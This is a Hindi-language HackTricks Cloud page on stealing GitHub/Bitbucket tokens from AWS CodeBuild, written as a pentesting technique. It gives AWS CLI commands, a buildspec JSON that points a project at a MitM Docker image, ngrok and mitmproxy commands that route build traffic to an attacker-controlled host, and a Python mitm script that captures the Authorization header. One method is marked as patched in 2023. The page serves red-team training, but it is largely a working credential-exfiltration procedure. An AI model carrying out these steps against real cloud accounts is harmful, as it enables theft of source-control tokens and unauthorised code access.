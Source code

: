 # AWS Codebuild - टोकन लीकेज

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन्स की रिकवरी

सबसे पहले, जांचें कि क्या कोई सोर्स क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### डॉकर इमेज के माध्यम से

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **access** (**GH token या OAuth token**) को **exfiltrate** कर सकते हैं जिससे Codebuild को विशेष डॉकर इमेज का उपयोग करके प्रोजेक्ट का निर्माण चलाने के लिए बनाया जा सकता है।

इस उद्देश्य के लिए आप एक नया Codebuild प्रोजेक्ट **create** कर सकते हैं या मौजूदा के **environment** को बदलकर **Docker image** सेट कर सकते हैं।

आप जिस Docker इमेज का उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker इमेज है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगी। इससे आप **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफिक को इंटरसेप्ट कर सकते हैं और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा कर सकते हैं।

1. **अपनी खुद की Docker MitM इमेज बनाएं और अपलोड करें**
* रेपो के निर्देशों का पालन करें अपने प्रॉक्सी IP पते को सेट करने के लिए और अपने SSL सर्ट को सेट करें और **build the docker image**।
* **DO NOT SET `http_proxy`** ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न करें।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker इमेज बन जाती है, तो इसे किसी सार्वजनिक रेपो (Dockerhub, ECR...) में **upload करें**।
2. **environment सेट करें**
* एक **नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा के environment को **modify** करें।
* प्रोजेक्ट को पहले से जनरेट की गई Docker इमेज का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**

* **Github रेपो** में बताए गए अनुसार आप कुछ इस तरह का उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy का इस्तेमाल किया गया संस्करण 9.0.1 था**, यह बताया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता है।
{% endhint %}

4. **बिल्ड चलाएं और क्रेडेंशियल्स कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

यह aws cli के साथ भी किया जा सकता है जैसे कि

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**AWS द्वारा इस संवेदनशीलता को 20 फरवरी 2023 के सप्ताह में किसी समय सही कर दिया गया था (मुझे लगता है शुक्रवार को)। इसलिए अब एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियां हों, Github/Bitbucket टोकन को लीक कर सकता है** जो कॉन्फ़िगर किया गया हो या यदि अनुमतियां OAuth के माध्यम से कॉन्फ़िगर की गई हों, तो **कोड तक पहुंचने के लिए इस्तेमाल किया गया अस्थायी OAuth टोकन**।

* एक हमलावर CodeBuild प्रोजेक्ट में पर्यावरण चर **http\_proxy** और **https\_proxy** जोड़ सकता है जो उसकी मशीन की ओर इशारा करते हैं (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* फिर, github रेपो के URL को HTTP का उपयोग करने के लिए HTTPS के बजाय बदलें, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट पर [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बेसिक उदाहरण चलाएं
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **Build the project** पर क्लिक करें, **credentials** स्पष्ट पाठ (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपनी मशीन से टोकन का उपयोग कर सकता है, सभी अधिकारों की सूची बना सकता है और उनका उपयोग (दुरुपयोग) CodeBuild सेवा को सीधे उपयोग करने से आसान होगा।
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपने हैकिंग ट्रिक्स साझा करें।

</details>
